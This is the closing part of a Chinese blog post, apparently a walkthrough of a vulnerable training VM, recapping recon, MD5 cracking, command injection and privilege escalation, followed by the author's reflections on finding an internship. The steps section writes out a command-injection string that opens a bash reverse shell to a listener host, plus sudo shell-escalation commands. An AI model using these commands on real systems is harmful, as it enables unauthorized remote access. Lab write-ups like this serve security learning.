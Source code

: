 ### 渗透步骤回顾

1、信息收集
 目标IP探测 (arp-scan、netdiscover、nmap)
 Nmap端口扫描，版本，操作系统扫描等
 2、目录扫描
 用dirb扫出了许多关键目录（admin和dev页面）
 用dirsearch扫描出关键目录
 3、敏感文件查找及网页访问
 4、MD5破解（在线破解，多个网址试试）
 仔细观察网页信息，该靶机主要在/dev目录处前端源码泄露了MD5密码信息
 5、登录管理员账号，并在/dev/shell页面利用命令注入漏洞
 6、命令注入和nc反弹shell
 命令拼接（ls &&echo ‘bash -i >& /dev/tcp/192.168.245.133/4444 0>&1’|bash
 nc反弹shell（kali机监听 nc -lvp 4444）
 7、权限提升
 找root权限用户，找敏感目录，文件
 strings的使用
 用Python调用本地的shell实现
 sudo python -c ‘import pty; pty.spawn("/bin/bash")’
 sudo su - root

### 感悟

越学越觉得自己菜，所以只能不断的学下去，这篇博客里面还有一些地方我自己都不大懂，后续会自己先弄明白，忙活了几个月找暑假实习，从内推到网申再到校招，这段时间没怎么写博客，算是偷懒了。不过找实习的过程还是学习了很多，从最开始接到面试电话吓得腿抖，到后面慢慢摸清了面试官的问题套路和面试官有说有笑，自己也算是进步了吧，当然会就是会不会就是不会，和面试官胡搅蛮缠是不行的。也慢慢觉得“自我”这种东西是碰撞出来的，越是碰到强的东西，凶狠的东西，高水准的东西就会反弹回来，虽然撞的鼻青脸肿，但是可以反馈给你自己的水平，让你知道人外有人天外有天，还需夹着尾巴学习，那就夹着尾巴好了，我是一个怀揣大佬梦想的菜鸡，不想当大佬的菜鸡不是好菜鸡！明天就要去上班实习了，实习单位还不错，算是业内一流水平，这会反而睡不着，忙活了这么久，六一节了心情开始忐忑，嗯，希望后面的路我能勇敢的走下去，给自己加加油。

by 久违  2020.6.1 凌晨